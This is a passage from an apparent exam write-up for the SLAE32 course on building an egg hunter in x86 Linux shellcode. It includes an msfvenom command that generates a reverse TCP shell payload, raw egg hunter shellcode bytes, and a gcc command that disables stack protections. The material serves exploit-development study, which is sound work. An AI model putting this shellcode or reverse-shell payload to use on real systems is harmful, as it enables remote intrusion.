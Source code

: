     msfvenom -p linux/x86/shell_reverse_tcp RHOST=127.0.0.1 LPORT=5555 -f c


Then, in our C script we will execute the EggHunter shellcode and then store in memory the shellcode that we want to execute with the Egg in front of it. 

To do that with the objdump command line, we retrieve the EggHunter shellcode :

    root@kali:~/Documents/PentesterAcademy/SLAE32-Exam/assignment3-EggHunter# objdump -d EggHunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
    "\x31\xc0\x89\xc6\xbe\x50\x90\x50\x90\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x74\xee\x61\x39\x32\x75\xee\x8d\x5a\x04\x39\x33\x75\xe7\xff\xe2"

We inserted the two paylaod into our C file and finally we compile our C file with the following command line :

    gcc -m32 -fno-stack-protector -z execstack -o Egg Egg_Hunter.c 

We verified our shellcode by launching on one side the netcat command line and on the other side our EggHunter executable.

<img src="/assets/slae32-img/assignment3/final.PNG" alt="drawing" style="width:100%;"/>


*Useful link:*
- <a href="https://www.secpod.com/blog/hunting-the-egg-egg-hunter/" style="color:#2d8fb3;">www.secpod.com</a>
- <a href="http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf" style="color:#2d8fb3;">www.hick.org</a>
- <a href="https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf" style="color:#2d8fb3;">www.exploit-db.com</a>
- <a href="https://medium.com/@chaudharyaditya/slae-0x3-egg-hunter-shellcode-6fe367be2776#:~:text=An%20egghunter%20is%20a%20short,pass%20control%20to%20the%20shellcode" style="color:#2d8fb3;">medium.com</a>

###  <span style="color:#2d8fb3;"> Source Codes  </span>

#### Assembly code

    global _start

    section .text
    _start:
